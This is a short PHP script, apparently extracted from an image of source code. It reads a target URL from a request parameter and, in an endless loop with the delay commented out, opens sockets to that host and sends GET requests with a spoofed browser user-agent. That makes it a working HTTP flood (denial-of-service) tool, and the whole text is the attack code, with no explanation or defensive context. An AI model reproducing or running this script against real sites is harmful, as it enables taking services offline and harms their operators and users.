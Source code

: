 echo 'running';
$url = $_GET['url'];
$parsed_url = parse($url);
$host = $parsed_url['host'];
$path = $parsed_url['path'];

if ($path == "")
        $path = "/";
      
while(1)
{
        $sock = fsockopen($host, 80);
        $pack = "GET $path HTTP/1.1\r\n";
        $pack.= "Host: " .$host. "\r\n";
        $pack.= "User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\n";
        $pack.= "Accept: */*\r\n";
        $pack.= "Accept-Language: en-US,en;q=0.5\r\n";
        $pack.= "Connection: closed\r\n\r\n";
        fputs($sock, $pack);
        fclose($sock);
        //sleep(1);
}

function parse($url){
    if(strpos($url,"://")===false) $url = "http://".$url;
    $info = parse_url($url);
    return $info;
}
